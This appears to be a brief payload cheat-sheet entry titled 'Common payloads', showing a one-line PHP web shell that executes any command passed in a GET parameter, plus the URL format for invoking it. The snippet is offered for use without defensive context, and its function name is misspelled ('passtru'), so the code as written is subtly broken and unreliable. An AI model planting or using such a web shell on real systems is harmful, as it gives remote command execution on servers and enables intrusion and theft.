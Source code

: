 # Common payloads

## PHP RCE
```php
<?php
  passtru($_GET['KEY HERE']);
?>
```
Then, to run a command:
```
https://domain.com/?<INSERT KEY HERE>=<COMMAND>
```
